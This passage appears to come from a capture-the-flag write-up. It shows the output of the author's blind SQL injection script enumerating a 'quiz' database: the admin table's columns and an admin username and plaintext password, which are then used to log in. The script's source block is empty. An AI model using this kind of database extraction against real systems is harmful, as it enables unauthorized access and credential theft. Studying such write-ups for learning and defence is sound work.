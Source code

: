 ```py
```

This was the output obtained upon using the script that I created:
```bash
[+] Schema Name Length: 4
quiz
[+] Schema Name: quiz


[+] Table Name Length: 5
admin
[+] Table Name: admin


[+] Number of Columns: 3

[+] Column #1
[+] Column Name Length: 2
id
[+] Column Name: id

[+] Column #2
[+] Column Name Length: 8
username
[+] Column Name: username

[+] Column #3
[+] Column Name Length: 8
password
[+] Column Name: password

[+] Enumerating Row from 'quiz.admin'...

[+] 'id' Length: 1
1
[+] id: 1

[+] 'username' Length: 5
admin
[+] username: admin

[+] 'password' Length: 17
S3creT_p4ssw0rd-$
[+] password: S3creT_p4ssw0rd-$
```

With the credentials `admin:S3creT_p4ssw0rd-$` obtained, it was time to login to the admin page:

<p align="center">